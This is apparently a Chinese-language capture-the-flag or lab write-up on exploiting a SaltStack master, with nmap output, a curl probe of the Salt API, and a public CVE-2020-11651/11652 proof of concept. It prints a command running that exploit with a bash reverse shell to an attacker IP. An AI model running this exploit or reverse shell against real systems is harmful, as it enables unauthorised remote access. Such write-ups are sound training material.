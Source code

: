 nmap 結果
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
```

都沒有可以利用的地方 去看 `ZeroMQ ZMTP 2.0` 版本有無漏洞
第一個[這個](https://github.com/jasperla/CVE-2020-11651-poc/blob/master/exploit.py)沒有 username 跟密碼

他有開一個 8000 port 使用 `curl -i http://192.168.125.62:8000/` 發現有用到一個 `salt 的 api`
![image](https://hackmd.io/_uploads/BJpgWBT7ke.png)

上網可以找到相關的 [CVE](https://github.com/jasperla/CVE-2020-11651-poc) : `CVE-2020-11652`
使用他的 exploit 達成 reverse shell 
`python3 exploit.py -m 192.168.125.62 --exec "bash -i >& /dev/tcp/192.168.45.189/8000 0>&1"`
![image](https://hackmd.io/_uploads/B1pgiSTm1e.png)

成功拿到 flag
![image](https://hackmd.io/_uploads/BJaHjHT7kx.png)
